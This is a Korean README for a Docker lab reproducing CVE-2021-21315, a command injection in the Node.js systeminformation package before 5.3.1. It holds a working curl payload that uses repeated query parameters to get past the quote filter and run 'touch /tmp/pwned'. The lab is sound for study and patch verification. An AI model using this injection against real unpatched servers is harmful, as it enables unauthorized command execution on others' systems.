



# Node.js package(systeminformation) Command Injection（CVE-2021-21315）

systeminformation은 Node.js 환경에서 시스템의 하드웨어, 운영체제, 네트워크 및 기타 다양한 시스템 파라미터 정보를 상세하게 조회할 수 있도록 도와주는 오픈소스 라이브러리입니다.

CVE-2021-21315는 이 패키지의 특정 함수에서 Command Injection이 일어나는 보안 취약점입니다.

**Contributors**

-   [황원민(@1mn2147)](https://github.com/1mn2147)

## 참조

- 이 취약점은 Node.js 대상이 아닌 node package중 systeminformation 패키지를 대상으로 한 CVE임을 밝힙니다.
- NVD: https://nvd.nist.gov/vuln/detail/CVE-2021-21315
- 취약 패키지: https://github.com/sebhildebrandt/systeminformation
- 취약 버전: systeminformation < 5.3.1

## 환경 구성

```bash
docker compose up --build -d
```

서비스는 호스트의 `3000/tcp`로 노출됩니다.


## 취약점 재현

`systeminformation@5.3.0`의 `services()`는 Linux에서 `ps ... | grep -iE "<service>"` 형태의 shell command를 구성합니다. 단일 문자열은 필터링되지만, Express query parameter를 같은 이름으로 반복해 배열로 전달하면 배열 원소가 통째로 이어 붙어 quote 문자를 우회할 수 있습니다.

검증된 payload:

```bash
curl 'http://localhost:3000/api/services?name=node&name=%22%3Btouch%20%2Ftmp%2Fpwned%3B%23'
```

컨테이너 내부에서 생성된 파일을 확인합니다.

```bash
docker compose exec -T node sh -c 'ls /tmp'
```


컨테이너 내부에서 ls 명령어 실행 시 Injection된 touch 명령어기 실행이 되어 pwned 파일이 생성된것을 확인할 수 있습니다.

## 요약
CVE-2021-21315은 취약 함수에 문자열이 아닌 배열 파라미터가 전달될 때 shell metacharacter 필터를 우회할 수 있는 취약점입니다

해당 취약점은 systeminformation 버전 5.3.1에 패치되었습니다.
